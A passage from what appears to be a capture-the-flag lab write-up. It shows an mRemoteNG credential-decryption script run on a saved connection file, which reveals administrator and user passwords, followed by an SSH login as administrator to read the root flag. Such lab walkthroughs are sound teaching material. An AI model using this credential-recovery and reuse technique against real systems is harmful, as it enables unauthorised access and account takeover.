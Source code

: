 

    root@kali# ./mRemoteNG-decrypt.py confCons.xml-orig 
    [+] Found nodes: 2

    Username: Administrator
    Password: thXLHM96BeKL0ER2

    Username: L4mpje
    Password: bureaulampje



This script is also available [on my
Gitlab](https://gitlab.com/0xdf/ctfscripts).

### SSH as administrator

With that password, I can ssh in as administrator:



    root@kali# ssh administrator@10.10.10.134
    administrator@10.10.10.134's password:
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    administrator@BASTION C:\Users\Administrator>



And I can grab `root.txt`:



    administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
    958850b9...







